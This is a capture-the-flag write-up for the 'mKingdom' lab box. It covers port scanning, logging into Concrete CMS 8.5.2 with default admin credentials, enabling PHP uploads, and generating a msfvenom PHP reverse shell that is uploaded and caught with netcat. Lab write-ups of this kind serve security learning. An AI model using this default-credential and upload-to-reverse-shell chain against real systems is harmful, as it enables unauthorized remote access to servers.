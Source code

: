 # mKingdom

### It's-a-me!

Initial nmap scan shows port 85 open:

    nmap -sC -sV -p85 10.10.137.9                 
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-04 12:58 EDT
    Nmap scan report for 10.10.137.9
    Host is up (0.054s latency).
    
    PORT   STATE SERVICE VERSION
    85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
    |_http-title: 0H N0! PWN3D 4G4IN
    |_http-server-header: Apache/2.4.7 (Ubuntu)
Gobuster directory enumeration shows /app directory, which eventually leads me to `http://10.10.137.9:85/app/castle/`<br />
![image](https://github.com/user-attachments/assets/5b5eae1c-9472-4d91-8070-0edacb0a1249)<br />
As you can see from the image above, Wappalyzer shows that this server is running `Concrete CMS 8.5.2`. After some online search and website enumeration, I found the following page `http://10.10.137.9:85/app/castle/index.php/login`:<br />
![image](https://github.com/user-attachments/assets/994cb771-e08d-42af-9f77-93b6ce5159ef)<br />
I saw online that the default username for the admin is `admin.` So I tried with `admin:password`, and it worked, lol. Now I can exploit a vulnerability that i found [here](https://hackerone.com/reports/768322). Follow the steps provided in this guide:<br />
Add .php in the allowed file types: <br />
![image](https://github.com/user-attachments/assets/76e8c642-45ab-4bfe-96d1-62cfbf2efb84)<br />
Now generate a php revershe shell with msfvenom: `msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=1234 > shell.php`.<br />
Now upload it:<br />
![image](https://github.com/user-attachments/assets/6cdf3097-1912-47c2-b9fc-abd5deb962e4)<br />
Now open a netcat listener and click on the created link: <br />
![image](https://github.com/user-attachments/assets/7b301926-ee80-436e-87b7-0b8199e01bc6)<br />
Nice:<br />
![image](https://github.com/user-attachments/assets/7340f0ee-89cf-46b4-96c2-62d18e7381c0)<br />







- What is user.txt?
- What is root.txt?
